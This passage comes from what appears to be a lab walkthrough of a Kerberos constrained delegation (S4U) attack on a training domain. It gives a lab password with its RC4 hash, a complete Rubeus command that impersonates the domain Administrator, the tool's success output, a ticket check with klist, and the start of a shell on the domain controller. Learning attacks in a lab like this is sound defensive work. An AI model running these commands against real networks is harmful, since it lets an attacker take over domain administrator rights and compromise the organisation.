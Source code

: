 ```
[*] Input password             : Slavi123
[*]       rc4_hmac             : FCDC65703DD2B0BD789977F1F3EEAECF
```

#### Step 4: Perform S4U Attack

Execute the Service-for-User (S4U) attack to obtain Administrator tickets:

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

**Attack Flow:**

1. **S4U2self**: Request TGS for Administrator to webservice
2. **S4U2proxy**: Convert to service ticket for Administrator to HTTP/DC1

**Expected Output:**

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2Fh4wzNlo0OCYRM3vlpvZY%2FScreenshot%202025-09-13%20at%208.45.56%E2%80%AFPM.png?alt=media&#x26;token=fa2465ae-7afa-40be-815e-81ec668f4b5a" alt=""><figcaption></figcaption></figure>

```
[*] Action: S4U
[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] Using domain controller: dc1.eagle.local (172.16.18.3)
[*] Building S4U2self request for: 'webservice@EAGLE.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'webservice@EAGLE.LOCAL'
[*] Impersonating user 'Administrator' to target SPN 'http/dc1'
[*] Building S4U2proxy request for service: 'http/dc1'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
```

#### Step 5: Verify Ticket Injection

Check that the Administrator ticket was injected into your session:

```powershell
klist
```

Look for entries showing:

```
Client: Administrator @ EAGLE.LOCAL
Server: http/dc1 @ EAGLE.LOCAL
```

#### Step 6: Access Target System

Use the injected ticket to access the domain controller:


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  